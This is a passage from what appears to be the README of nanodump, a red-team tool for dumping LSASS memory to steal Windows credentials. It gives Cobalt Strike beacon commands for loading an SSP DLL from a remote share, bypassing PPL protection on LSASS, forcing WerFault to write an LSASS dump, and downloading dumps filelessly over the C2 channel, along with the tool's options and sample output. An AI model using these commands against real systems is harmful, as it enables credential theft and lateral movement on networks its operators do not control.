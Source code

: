 ```
beacon> load_ssp \\10.10.10.10\openShare\ssp.dll
```


<h2 id="ppl">10. PPL bypass</h2>
If LSASS is running as Protected Process Light (PPL), you can try to bypass it using a userland exploit discovered by Project Zero. If it is successful, the dump will be written to disk.  

To access this feature, use the `nanodump_ppl` command
```
beacon> nanodump_ppl -v -w C:\Windows\Temp\lsass.dmp
```

<h2 id="wer">11. WerFault</h2>
You can force the WerFault.exe process to create a full memory dump of LSASS. Take into consideration that this requires to write to the registry

Because the dump is not made by nanodump, it will always have a valid signature.

To access this feature, use the `--werfault` parameter and the path there the dump should be created.
```
beacon> nanodump --werfault C:\Windows\Temp\
```

A dump of the nanodump process will also be created, similar to this:
```
PS C:\> dir 'C:\Windows\Temp\lsass.exe-(PID-648)-4035593\'

Directory: C:\Windows\Temp\lsass.exe-(PID-648)-4035593

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/23/2022   7:40 AM       58830409 lsass.exe-(PID-648).dmp
-a----         6/23/2022   7:40 AM        7862825 nanodump.x64.exe-(PID-3224).dmp
```

<h2 id="params">12. Parameters</h2>

#### --getpid
Get PID of LSASS and leave.  
This is just for convenience, nanodump does not need the PID of LSASS.

#### --write -w < path > (required for EXE)
Where to write the dumpfile.
* **BOF**: If this parameter is not provided, the dump will be downloaded in a fileless manner.
* **EXE**: This parameter is required given that no C2 channel exists

#### --valid -v
The minidump will have a valid signature.  
If not entered, the signature will be invalid. Before analyzing the dump restore the signature of the dump, with:  
`scripts/restore_signature <dumpfile>`  

#### --fork -f
Fork LSASS and dump this new process.
